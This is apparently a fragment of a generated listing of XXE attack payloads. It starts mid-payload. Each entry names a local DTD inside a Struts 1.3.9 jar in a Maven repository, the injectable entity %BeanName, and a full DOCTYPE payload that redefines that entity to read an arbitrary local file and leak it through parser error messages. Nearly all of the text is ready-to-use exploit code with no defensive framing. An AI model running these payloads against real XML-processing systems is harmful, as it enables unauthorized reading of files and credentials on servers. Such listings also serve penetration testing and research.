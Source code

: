 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.9/struts-core-1.3.9-sources.jar!/org/apache/struts/resources/struts-config_1_0.dtd`

**Injectable entity:** `%BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.9/struts-core-1.3.9-sources.jar!/org/apache/struts/resources/struts-config_1_0.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.9/struts-core-1.3.9.jar!/org/apache/struts/resources/struts-config_1_0.dtd`

**Injectable entity:** `%BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.9/struts-core-1.3.9.jar!/org/apache/struts/resources/struts-config_1_0.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
